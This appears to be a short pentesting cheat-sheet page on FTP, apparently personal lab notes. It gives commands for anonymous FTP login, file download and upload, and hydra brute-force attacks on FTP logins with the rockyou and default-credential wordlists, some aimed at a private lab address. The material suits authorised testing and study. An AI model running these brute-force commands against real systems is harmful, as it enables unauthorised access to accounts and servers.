 ```yaml
---
layout: default
title: TestFtp
date: 2022-05-03 12:00:00 -500
categories: [test,test2]
tags: [testTag]
---
```


### Anonymous Access

```
ftp anonymous@<<IP>>
```
### Download file

```
ftp <IP>
PASSIVE
BINARY
get <FILE>
```
### Upload File

```
ftp <IP>
PASSIVE
BINARY
put <FILE>
```
### FTP Brute-Force

```
hydra -L /usr/share/wordlists/dirb/others/names.txt -P /usr/share/wordlists/rockyou.txt 192.168.226.47 ftp
```

```
hydra -l joe -P /usr/share/wordlists/rockyou.txt 192.168.226.47 ftp
```

**Default Credentials**
```
hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 192.168.226.47 ftp
```

**Specify Port**
```
hydra -L /usr/share/wordlists/dirb/others/names.txt -P /usr/share/wordlists/rockyou.txt <<IP>> -s <<PORT>> ftp
```


